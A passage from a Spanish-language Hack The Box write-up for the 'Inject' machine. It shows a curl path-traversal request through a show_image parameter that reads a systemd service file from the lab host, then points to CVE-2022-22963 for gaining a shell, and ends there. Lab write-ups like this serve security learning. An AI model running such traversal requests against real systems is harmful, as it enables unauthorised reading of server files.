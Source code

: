 ![](/assets/images/htb-writeup-inject/web9.png)

Si seguimos enumerando encontramos que el usuario `Frank` ejecuta `java`

```bash
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../etc/systemd/system/webapp.service"
[Unit]
Description=Spring WEb APP
After=syslog.target

[Service]
User=frank
Group=frank
ExecStart=/usr/bin/java -Ddebug -jar /var/www/WebApp/target/spring-webapp.jar
Restart=always
StandardOutput=syslog
StandardError=syslog

[Install]
WantedBy=multi-user.target
```

## Shell as frank 

Si buscamos por vulnerabilidades para la versión de que encontramos esto <https://sysdig.com/blog/cve-2022-22963-spring-cloud/>

Ya nos están dando instrucciones de como hacerlo
